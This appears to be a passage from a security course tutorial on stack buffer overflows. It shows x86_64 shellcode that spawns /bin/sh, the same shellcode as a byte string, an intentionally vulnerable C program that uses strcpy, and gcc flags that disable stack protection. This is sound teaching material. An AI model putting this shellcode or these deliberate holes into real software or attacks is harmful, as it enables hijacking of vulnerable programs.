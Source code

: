 ## Shell Code <a name="section3"></a>

The  following x86_64 assembly code executes `/bin/shell` via an `execve()` system call.
```assembly
jmp string           ; \xeb\x17             jump to string:

shellcode:
pop %rdi             ; \x5f                  %rdi points to .string
xor %rdx, %rdx       ; \x48\x31\xd2          %rdx contains NULL (or %dl 0x00)
movb %dl, 0x7(%rdi)  ; \x88\x57\x07          copy 0x00 at end of .string
mov %rdi, 0x8(%rdi)  ; \x48\x89\x7f\x08      copy .string addr into argv[0]
mov %rdx, 0x10(%rdi) ; \x48\x89\x57\x10      copy NULL into argv[1]
lea 0x8(%rdi), %rsi  ; \x48\x8d\x77\x08      copy addr of argv[] to %rsi
movb $0x3b, %al      ; \xb0\x3b              set execve syscall code in %rax
syscall              ; \x0f\x05              execute syscall

string:
call shellcode       ; \xe8\xe4\xff\xff\xff  push .string address on stack and jump to shellcode:
.string "/bin/sh"    ; /bin/sh
```
The binary machine instructions result in the following 37 bytes of executable shell code
```C
char shellcode[] =
   "\xeb\x17\x5f\x48\x31\xd2\x88\x57\x07\x48\x89\x7f\x08\x48\x89\x57" 
   "\x10\x48\x8d\x77\x08\xb0\x3b\x0f\x05\xe8\xe4\xff\xff\xff/bin/sh";
```

**C 3**: <a name="c3"></a> The C program [exploit.c](exploit.c) differs from [overflow.c](overflow.c) just in the size of the buffer `buf` which has been increased to 48 bytes in order to accomodate the shell code listed above:
```C
 1 #include <string.h>
 2 #include <stdio.h>
 3 #include <stdlib.h>
 4 #include <stdint.h>
 5 #include <inttypes.h>
 6
 7 char* copy(char *b)
 8 {
 9     char  buf[48];
10
11     strcpy(buf, b);
12
13     printf("&buf 0x%016" PRIx64 " rbp 0x%016" PRIx64 " rip 0x%016" PRIx64 "\n",
14           (intptr_t*)buf, *(intptr_t*)(buf + 48), *(intptr_t*)(buf + 56));
15 }
16
17 int main(int argc, char** argv)
18 {
19     char *b;
20
21    if (argc < 2)
22    {
23        exit(1);
24    }
25    copy(argv[1]);
26    printf("We happily returned!\n");
27    exit(0);
28 }
```
We compile `exploit.c` whith disabled canaries and enabled stack execution
```console
> gcc -ggdb -fno-stack-protector -Wa,--exec -o exploit exploit.c
```

[AS]: mailto:andreas.steffen@strongsec.net
[CC]: http://creativecommons.org/licenses/by/4.0/